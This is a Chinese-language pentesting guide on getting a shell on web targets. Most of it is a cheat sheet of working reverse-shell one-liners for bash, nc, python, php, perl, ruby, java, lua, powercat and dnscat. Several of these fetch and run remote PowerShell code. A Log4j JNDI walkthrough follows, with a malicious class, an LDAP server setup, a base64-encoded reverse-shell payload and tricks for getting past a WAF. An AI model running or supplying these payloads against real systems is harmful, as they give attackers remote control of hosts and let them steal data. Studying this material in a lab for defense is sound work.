



# 漏洞探测/利用

**根据端口，尝试常用漏洞，尝试未授权访问漏洞。**

## 网站漏洞挖掘

**先扫描网站目录，看看有没有后台登陆地址，敏感文件，配置文件之类的。**

**有后台或登录入口的，尝试通过弱口令等方式进入系统**

### 通过js文件找漏洞

- 查看网页源代码，可能会有敏感信息

- js文件中会包含敏感信息、可能存在漏洞的参数等信息，会找到后台的路由，可以针对这些路由来找未授权漏洞,大部分接口很可能存在越权。

    ```
    https://github.com/003random/getJS 得到网站的全部js文件
    https://github.com/Threezh1/JSFinder 快速在网站的js文件中提取URL，子域名的工具。
    ```

- 部分VUE站点，还可以通过F12查看webpack打包前的前端代码，可从注释中获取敏感信息

### 针对扫描到的网页测试：

- 文件上传木马，文件上传计划任务，上传ssh密钥（需要可以跨路径，和较高的权限）
- sql注入获得shell，上传webshell。
- 反序列化RCE
- SSTI RCE
- 命令注入
- ssrf读文件，打内网
- 存储型xss弹cookie
- XXE读文件，探测内网，java上传文件

### **中间件/框架漏洞**

- java
    - shiro，fastjson，log4j2

## 通过网站漏洞获得shell


获取webshell的动作又称作getshell，可按照下列方式进行分类：

### sql注入getshell：

### **上传文件获得webshell**

- 可以通过前后台进行上传，但无论是通过前台上传还是通过后台(通过口令进入或XSS到后台、逻辑漏洞越权等)上传点，在某些情况下可能需要结合一些Web server的解析漏洞。

- 上传漏洞能够直接getshell的漏洞，例如Joomla远程上传、Tomcat PUT上传，同时也有存在上传漏洞的编辑器可以getshell，例如FCK，Ewebeditor，UEditor。在这基础上，一般是由收集的信息反馈是否存在漏洞，再进一步达到利用的目的。而在这个过程中可能会涉及**逻辑绕过、WAF对抗、杀软绕过、执行层**，所要关注的有以下四点：

    * 代码或逻辑存在问题，可以上传脚本文件；

    * 躲过WAF对脚本文件以及对上传内容的校验；

    * 解决落地杀;

    * 执行过程中躲过流量监控或系统层监控


- 同时我们也可以考虑在上传插件情况将shell添加到安装的插件中上传服务器获得shell。

- 现在的java项目已经不使用jsp了，也就不存在webshell了，但是可以使用其他方法达到目的。

### **RCE getshell**

* Java系的OGNL表达式注入、EL注入、反序列化，jnid注入；
* PHP系列的eval类、伪协议类代码执行、system类命令执行等；

### **文件包含getwebshell**

- 很老的项目才有了。
- 或者php框架可能会有

### **漏洞组合拳getshell**


在某些时候一个漏洞即可getshell，但是有时候需要各种漏洞进行组合成功获取shell。

**XXE(+SSRF)**

- 
    XXE即XML外部实体注入攻击，最理想的状态就是直接可以代码执行（类似PHP expert）；大多数还是以文件读取信息收集为主，结合源码或者配置文件（例如/etc/shadow、tomcat-users.xml等）getshell；还可以通过XXE的SSRF(Server-Side Request For grey,服务器请求伪造)来getshell。 


**SSRF+RCE**

- 
    原理上SSRF可以结合所有RCE（反序列化、s2、mysql等）的漏洞进行组合利用，只是在平常实践中用SSRF+redis未授权用的更多。


**文件读取+源码+Vuls(基于Linux/FreeBSD的漏洞扫描程序)**

- 
    一般情况下是通过web.xml获取class文件，然后进行反编译，找到代码的漏洞，进而获取系统的权限。


**弱口令+后台+上传**

- 
    通过对弱口令的破解，可以进入后台对多种漏洞进行利用，同时还具备备份还原、导入导出、模板编辑等功能。


**XSS/CSRF+后台+上传**

- 
    可通过XSS获取到cookie，或者利用CSRF类漏洞获取后台权限，达到漏洞利用目的。


**逻辑漏洞&越权+上传**

- 
    登录逻辑绕过、越权类，进入后台，到达漏洞利用目的。


**系统层getcmdshell**

* 暴力破解

* 针对常规协议：SSH、Telnet、RDP、SMB、VPC、Redis等中间件类

* 通过**数据库执行语句**获得系统shell，就获取权限而言，比SQL注入更为直接

* 可尝试在**设备层**上进行突破，比如VPN、防火墙


**钓鱼getcmdshell**

- 通过发送钓鱼邮件、捆绑的马，访问即加载方式、点击即执行类的马。在生活中这一类十分常见，通常会以邮件形式发送，这类攻击一般会**结合社工**，可信度大大加强。


**cms后台getshell**

- cms(内容管理系统)，可以将第三方信息来源，比如文本文件、HTML网页、Web服务、关系数据库等内容抓取，并经分析处理后放到自身的内容库中。对于此类例子，网上有大量的资料，比如DedeCMS V5.7 SP2后台存在代码执行漏洞，攻击者可以利用该漏洞在增加新的标签中上传木马，获取webshell。

## 反弹shell

> https://www.revshells.com/   反弹shell命令生成攻击，不用自己写了

由于webshell是非交互式shell，有些命令无法执行，通常要反弹一个交互式的shell。提权必须要得到一个交互式的shell。

**如果目标机器不出网，内网渗透代理和端口转发**

### Linux反弹shell

- msf 生成木马上传到靶机执行反弹shell，生成一个elf文件。

**攻击机监听：**

- 用来在我们本地监听反弹来的shell

- 使用nc监听端口：`nc -lvvp [攻击机port]`
    - 未加参数n时，使用nc监听端口反弹shell时都会有一个警告：[port]: inverse host lookup failed: Unknown host。根据nc帮助文档的提示加上-n参数即不产生这个警告，-n参数代表在建立连接之前不对主机进行dns解析。


使用whereis命令可以确定目标支持的反弹方法。`whereis nc bash python php exec lua perl ruby java`

**bash反弹**

* 靶机运行命令：`bash -i > /dev/tcp/攻击机ip/攻击机port 0>&1 2>&1`

* 

  ```bash
  bash -i #代表在本地打开一个bash。
  
  0>&1 2>&1  #把0复制到1，把2复制到1
  
  /dev/tcp/ #Linux中的一个特殊设备,打开这个文件就相当于发出了一个socket调用，建立一个socket连接。
  
  bash -i >& /dev/tcp/ip/port 0>&1  #将stdout/stderr（1,2)重定向到与ip:port的tcp套接字中
  ```

- 
    linux文件描述符：linux shell下有三种标准的文件描述符，分别如下:

    ```bash
    0 - stdin 代表标准输入,使用<或<<
    1 - stdout 代表标准输出,使用>或>>
    2 - stderr 代表标准错误输出,使用2>或2>>
    
    >&含义：
    当>&后面接文件时，表示将标准输出和标准错误输出重定向至文件。
    当>&后面接文件描述符时，表示将前面的文件描述符重定向至后面的文件描述符
    ```

**nc反弹**

- **前提**：目标主机装了nc

- 靶机：

    ```bash
    nc -e /bin/bash [攻击机ip] [port]
    #-e prog 程序重定向，一旦连接，就执行。-e后面跟的参数代表的是在创建连接后执行的程序，这里代表在连接到远程后可以在远程执行一个本地shell(/bin/bash)，也就是反弹一个shell给远程.
    
    
    #不使用-e
    mknod /tmp/backpipe p /bin/sh 0/tmp/backpipe | nc attackerip listenport 1>/tmp/backpipe			
    ```


**awk反弹**

- AWK 是一种处理文本文件的语言,是一个强大的文本分析工具。

    ```
    awk 'BEGIN{s="/inet/tcp/0/[攻击者ip]/[port]";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'s
    ```

    

**telnet反弹**

- 要在攻击主机上分别监听两个端口，执行反弹shell命令后，在其中一个端口终端输入命令，另一个端口查看命令执行后的结果。


- 
    攻击机：


```bash
nc -nvlp [port1]    #监听输入命令端口
nc -nvlp [port2]    #监听输出命令端口
```

- 
    靶机：


```bash
telnet [攻击机ip] [port1] | /bin/bash | telnet [攻击机ip] [port2]
```

**socat反弹**

```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:[攻击机ip]:[port]
```

**python反弹**

~~~bash
python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('192.168.239.128',7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"

#首先使用socket与远程建立起连接，接下来使用到了os库的dup2方法将标准输入、标准输出、标准错误输出重定向到远程，dup2这个方法有两个参数，分别为文件描述符fd1和fd2，当fd2参数存在时，就关闭fd2，然后将fd1代表的那个文件强行复制给fd2，在这里可以把fd1和fd2看作是C语言里的指针，将fd1赋值给fd2，就相当于将fd2指向于s.fileno()，fileno()返回的是一个文件描述符，在这里也就是建立socket连接返回的文件描述符。于是这样就相当于将标准输入(0)、标准输出(1)、标准错误输出(2)重定向到远程(3)，接下来使用os的subprocess在本地开启一个子进程，传入参数“-i”使bash以交互模式启动，标准输入、标准输出、标准错误输出又被重定向到了远程，这样的话就可以在远程执行输入命令了。
~~~

**php反弹**

- **前提**：php需要关闭safe_mode选项，才能使用php的exec函数执行反弹shell的命令。

~~~bash
php -r 'exec("/usr/bin/bash -i >& /dev/tcp/[攻击机ip]/[port] 0>&1");'
有时变形为
php -r '$sock=fsockopen("[攻击机ip]",[port]);exec("/bin/bash -i <&3 >&3 2>&3");'
~~~

**perl反弹**

Perl一种功能丰富的计算机程序语言，运行在超过100种计算机平台上，适用广泛，从最初是为文本处理而开发的，现在用于各种任务，包括系统管理，Web开发，网络编程，GUI开发等。

~~~bash
perl -e 'use Socket;$i="ip"$p=port;
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
~~~

**Ruby反弹**

- Ruby，一种简单快捷的面向对象（面向对象程序设计）脚本语言。


```bash
ruby -rsocket -e'f=TCPSocket.open("[攻击机ip]",[port]).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

**java反弹**

- 编写执行反弹shell命令的java恶意类，例如：


~~~java
public class Revs {
    /**
    * @param args
    * @throws Exception 
    */
public static void main(String[] args) throws Exception {
        // TODO Auto-generated method stub
        Runtime r = Runtime.getRuntime();
        String cmd[]= {"/bin/bash","-c","exec 5<>/dev/tcp/192.168.99.242/1234;cat <&5 | while read line; do $line 2>&5 >&5; done"};
        Process p = r.exec(cmd);
        p.waitFor();
    }
}
~~~

* 编译并执行恶意类，成功反弹shell

  ```bash
  javac Revs.java
  java Revs
  ```


**Lua反弹**

- Lua 是一个小巧的脚本语言。 其设计目的是为了嵌入应用程序中，从而为应用程序提供灵活的扩展和定制功能。Lua由标准C编写而成，几乎在所有操作系统和平台上都可以编译，运行。Lua并没有提供强大的库，这是由它的定位决定的。Lua 有一个同时进行的JIT项目，提供在特定平台上的即时编译功能。

    ```bash
    lua -e "require('socket');require('os');t=socket.tcp();t:connect('[攻击机ip]','[port]');os.execute('/bin/sh -i <&3 >&3 2>&3');"
    ```

### Windows反弹shell

**cs生成木马**

- （可以直接生成powershell木马，远程执行上线，或者生成powershell命令上线cs）上传到靶机执行反弹shell
- 
    - 

**nc反弹**

- 
    靶机需安装netcat工具


- 靶机：`nc [攻击机ip] [port] -e c:\windows\system32\cmd.exe`

**powercat反弹**

- https://www.cnblogs.com/-mo-/p/11487997.html

- powercat是netcat的powershell版本，powershell在Windows操作系统下，拥有的权限较高，功能免杀性（渗透中往往因为杀毒软件而渗透失败）都要比netcat好用的多。

	```powershell
  powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c [攻击机ip] -p [port] -e cmd

  #下载到目标机器本地后执行
  Import-Module ./powercat.ps1PS C:\WWW> powercat -c 192.168.99.242 -p 1234 -e cmd
  ```

- nishang时基于powershell的渗透测试工具，需要powershell的版本达到3.0及以上。推荐win10版本电脑或windowsserver2008以上版本服务器。
    - https://github.com/samratashok/nishang
    -  靶机：Invoke-PowerShellTcp -Reverse -IPAddress [攻击机ip]  -Port [port]

**msf反弹**:

**Empire反弹**

- Empire是一款针对Windows平台的，使用powershell脚本作为攻击载荷的渗透攻击框架代码，具有从stager生成，提权到渗透维持的一系列功能，无需powershell.exe就可以使用powershell 的代理功能，还可以快速在后期部署漏洞利用模块，内置模块有键盘记录等，可以躲避网络检测和大部分安全防护工具，是一个基于powershell 的远控木马。


* 项目地址：<https://github.com/EmpireProject/Empire>

* 在实际渗透中，当拿到WebShell上传的MSF客户端无法绕过目标主机的杀毒软件时,可以执行Empire的Payload来绕过，成功之后再使用Empire的模块将其反弹回Metasploit。

- **步骤**

    - 靶机使用Empire的usemodule code_execution/invoke_shellcode模块修改两个参数：Lhost、Lport。将Lhost修改为MSF所在主机的IP，按以下命令设置：

    -  ```
         set Lhost [攻击机ip]
         set Lport [port]
  ```

* 攻击机利用msf，设置监听，运行后，就可以收到Empire反弹回来的Shell。

**Dnscat反弹**

- Dnscat2是一个DNS隧道工具，通过DNS协议创建加密的命令和控制通道。Dnscat2分为client端和server端，client运行在被控机器上，server运行在DNS服务器上。client，server部分分别是用C，ruby写的。其中作者在实现client部分时实现了跨平台，支持linux和windows编译运行。在完成连接建立后可以实现建立shell，上传下载文件等功能。


- github项目地址：<https://github.com/iagox86/dnscat2>


- 
    攻击机：


~~~bash
ruby dnscat2.rb --dns "domain=[dns服务器域名],host=[攻击机ip]" --no-cache -e open -e open 
~~~

- 
    靶机：


~~~bash
owershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/lukebaggett/dnscat2-powershell/master/dnscat2.ps1');Start-Dnscat2 -Domain [dns服务器域名] -DNSServer [攻击机ip]
~~~


## 漏洞利用分析案例

### 0x01 log4j漏洞利用

 2021年12月10日，公布了apache 的 log4j漏洞，影响甚广，引得圈内热闹非凡。


### 原理

log4j为java技术栈中，常用的日志框架。在编写程序时，常常需要在日志中输出程序中的一些变量进行查看，测试程序的正确性。
log4j的强大之处在于，除了可以输出程序中的变量，它还提供了Lookups接口，可以用来输出更多内容。感兴趣的同学可以进入该网址了解：<https://logging.apache.org/log4j/2.x/manual/lookups.html>


而该强大的功能是通过JNDI注入来完成的，具体的有RMI协议的方式和LDAP协议等不同方式。JNDI(Java Naming and Directory Interface)是一个应用程序设计的API，为开发人员提供了**查找和访问各种命名和目录服务**的通用、统一的接口，类似JDBC都是构建在抽象层上。现在JNDI已经成为J2EE的标准之一，所有的J2EE容器都必须提供一个JNDI的服务。过于强大的功能使得远程命令/代码执行漏洞（remote command/code execute，RCE）和Java反序列化漏洞的双重作用下，形成log4j漏洞。


**攻击流程**

.png)

1.攻击伪装一个请求体，里面含有JNDI可执行的服务, 主要是LDAP与RMI两种协议，请求URL如下。

```
 ${jndi:ldap://127.0.0.1:1389/Exploit}

 ${jndi:rmi://127.0.0.1:1389/Exploit}
```

2.在应用程序恰巧输出了请求头或者入参的log日志时,就会触发此URL的请求，并主动请求了攻击者准备的LADP/RMI服务。

3.利用LADP/RMI的特性，伪装返回值，含有要执行的恶意Class文件地址，与Class类名。

4.被攻击的服务器找不到对应Class文件就会触发JNDI的机制从远程服务器中下载Class。

5.用我们事先准备好的web服务给被攻击服务器提供可执行Class文件下载，被攻击服务器拿到到Class文件后会触发反序列化执行代码，达到了远程执行代码的目的漏洞复现。

### 实践
* **实验环境**

  攻击机：kali	ip 192.168.180.130

  靶机：雷石安全实验室搭建的漏洞靶场

* **步骤**
  
  * 第一步：雷石安全实验室搭建的漏洞靶场docker-compose.yml地址：

​			https://github.com/fengxuangit/log4j_vuln

​			或者直接运行命令搭建docker对象（需要提前安装好docker）。

  ```bash
docker pull registry.cn-hangzhou.aliyuncs.com/fengxuan/log4j_vuln
docker run -it -d -p 8080:8080 --name log4j_vuln_container registry.cn-   hangzhou.aliyuncs.com/fengxuan/log4j_vuln
docker exec -it log4j_vuln_container /bin/bash
/bin/bash /home/apache-tomcat-8.5.45/bin/startup.sh
  ```

  访问http://127.0.0.1:8080/webstudy/


  * 第二步：客户端编写恶意类。

例如：

 该例子效果为弹出计算器。

```java
public class Exploit {
  public Exploit(){
    try{
      // 要执行的命令
      String[] commands = {"open", "/System/Applications/Calculator.app"};
      Process pc = Runtime.getRuntime().exec(commands);
      pc.waitFor();
   } catch(Exception e){
      e.printStackTrace();
   }
 }

  public static void main(String[] argv) {
    Exploit e = new Exploit();
 }
}
```

* 第三步：将恶意类编译，得到Exploit.class。

  ```
  javac Exploit.java
  ```

* 第四步：在当前目录输入如下命令，启动一个web服务，充当着远程下载的作用。

  ```bash
  python3 -m http.server 8100
  ```


   * 第五步：输入如下命令启动marshalsec IDAP服务。

   项目地址：https://github.com/mbechler/marshalsec

```bash
java -cp /Users/fengxuan/Downloads/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8100/#Exploit"
```


* 第六步：在网页中发送带有参数c的post请求，其中c中包含该攻击者启动的IDAP服务地址，服务端收到请求后，向攻击者的服务。


服务器端含有漏洞的程序如下。

```java
package com.evalshell.webstudy;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

import java.io.*;
import javax.servlet.ServletException;
import javax.servlet.http.*;
import javax.servlet.annotation.*;


@WebServlet(name = "helloServlet", value = "/hello-fengxuan")
public class HelloServlet extends HttpServlet {
  private String message;
  private static final Logger logger = LogManager.getLogger(HelloServlet.class);

  public void init() {
    message = "Hello World!";
 }

  public void doGet(HttpServletRequest request, HttpServletResponse response) throws IOException {
    response.setContentType("text/html");
    response.setHeader("Content-Type", "text/html; charset=utf-8");
    System.out.println(request.getQueryString());


    // Hello
    PrintWriter out = response.getWriter();
    out.println("<html><body>");
    out.println("<span>你好，兄弟，请用post请求来搞我！</span>");
    out.println("</body></html>");
 }


  protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
    String name = req.getParameter("c");
    System.out.println(name);
    logger.error(name);
    resp.setContentType("text/html");
    resp.setHeader("Content-Type", "text/html; charset=utf-8");
    PrintWriter out = resp.getWriter();
    out.println("<html><body>");
    out.println("<h1>可恶！又被你装到了！</h1>");
    out.println("</body></html>");
 }

  public void destroy() {
 }
}
```

* 第七步：运行结果。由于docker搭建靶机，只有shell窗口，因此看不到靶机弹出计算器的效果。 

  

* 第八步：反弹shell

攻击机监听本地端口

```bash
nc -lvvp [port]
```

构造payload

使靶机执行：

```bash
bash -i >& /dev/tcp/[ip]/[port] 0>&2
```

①可以使用如上方式的java恶意类执行。

②也可以使用针对JNDI注入开发出来的攻击工具JNDIExploit-1.2-SNAPSHOT.jar ，下载地址如下。

链接：https://pan.baidu.com/s/1pNWfziQWeJ0PVssqSqWPNQ 
提取码：twgp

该工具是一个可执行jar包，可使用如下命令执行。

```bash
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i [ip]
```


在该工具执行的基础上，构造payload。

```
${jndi:ldap://[ip]:1389/Basic/Command/[command]}
```
或
```
${jndi:ldap://[ip]:1389/Basic/Command/Base64/[base64_encoded_cmd]}
```
下面我选用的是后者base64编码的命令，base64编码的命令载荷在网络传输中有着命中率较高的优势。

Base64编码在线工具地址：http://tool.chinaz.com/tools/base64.aspx
```bash
bash -i >& /dev/tcp/192.168.180.130/6666 0>&1
```
经过base64编码放入参数中
```
c=${jndi:ldap://[ip]:1389/Basic/Command/Base64/YmFzaCAtaSAmZ3Q7JiAvZGV2L3RjcC8xOTIuMTY4LjE4MC4xMzAvNjY2NiAwJmd0OyYyIA==}
```
向网页发送带有payload的post请求。

.png)

反弹shell成功。


### 其他利用方式

1.绕过防火墙WAF

该漏洞曝光后各安全厂商也纷纷推出了解决方案，WAF、RASP、改源码、改配置文件、更新到rc2等。在此次漏洞中最没有防御效果的就是 WAF。有提出 ${ 、jndi、ldap、rmi 等关键词规则的防护。但研究后发现都会存在被绕过问题。首先是 jndi、ldap 简直太容易被绕过，只要用 lowerCase upperCase 就可以把关键词分割开，如果是用了正则的话那还可以使用 upper 把 jndı 转成 jndi。

**注意**：这里的 ı(\u0131) 不是 i(\x69)和I(\x49)，经过 toUpperCase 就会转变成 I。从而绕过了 jndi 关键词的拦截。

再就是 ${ 关键词的拦截了，虽然这个范围有点大可能会产生一些误报，但鉴于漏洞的严重性还是有很多人建议拦截 ${，但这样也未必能够真正的解决，因为漏洞的触发点是在打印日志的时候把可控内容携带进去了。那么可控内容从哪里来？

```
Header、URL、键值对参数、JSON参数、XML参数 ...
```

现在随着 JSON 数据格式的流行，很多系统都在使用 JSON 处理参数，JSON 处理库用的最多的就数 Jackson和fastjson。而 Jackson 和 fastjson 又有 unicode 和 hex 的编码特性。

例如:

```json
   {"key":"\u0024\u007b"}                              
   {"key":"\x24\u007b"}       
```

这样就避开了数据包中有 ${ 的条件，所以 WAF 的防护规则还要多考虑几种编码。

2.信息泄露

 sys、env 这两个 lookup 的 payload 也在讨论中被频繁提起，实际上他们分别对应的是 System.getProperty() 和 System.getenv()，能够获取一些环境变量和系统属性。部分内容是可以被携带在dnslog 传出去的。

除了 sys、env 以外， ResourceBundleLookup 也可以获取敏感信息。

```java
public String lookup(final LogEvent event, final String key) {
	if (key == null) {
		return null;
    }
	final String[] keys = key.split(":");
	final int keyLen = keys.length;
	if (keyLen != 2) {
		LOGGER.warn(LOOKUP, "Bad ResourceBundle key format [{}]. Expected format is BundleName:KeyName.", key);
		return null;
  }
	final String bundleName = keys[0];
	final String bundleKey = keys[1];
	try {
		// The ResourceBundle class caches bundles, no need to cache here.
		return ResourceBundle.getBundle(bundleName).getString(bundleKey);
	} catch (final MissingResourceException e) {
		LOGGER.warn(LOOKUP, "Error looking up ResourceBundle [{}].", bundleName, e);
		return null;
	}
}
```

从代码上来看就很好理解，把 key 按照 : 分隔成两份，第一个是 bundleName 获取 ResourceBundle，第二个是 bundleKey 获取 Properties Value。

ResourceBundle 在 Java 应用开发中经常被用来做国际化，网站通常会给一段表述的内容翻译成多种语言，比如中文简体、中文繁体、英文。

那开发者可能就会使用 ResourceBundle 来分别加载 classpath 下的 zh_CN.properties、en_US.properties。并按照唯一的 key 取出对应的那段文字。例如： zh_CN.properties

```java
LOGIN_SUCCESS = 登录成功
```

那么，

```java
ResourceBundle.getBundle("zh_CN").getString("LOGIN_SUCCESS") 
```

获取到的就是登录成功。

如果系统是 springboot 的话，它会有一个 application.properties 配置文件。里面存放着这个系统的各项配置，其中有可能就包含 redis、mysql 的配置项。当然也不止 springboot，很多其他类型的系统也会写一些类似 jdbc.properties 的文件来存放配置。

这些 properties 文件都可以通过 ResourceBundle 来获取到里面的配置项。所以在 log4j 中 Bundle 是比sys和env更严重的存在。在不出网的环境下可以通过 dnslog 的方式来外带信息，除了dnslog以外还可以通过ldap、dns这两种方法来获取信息。

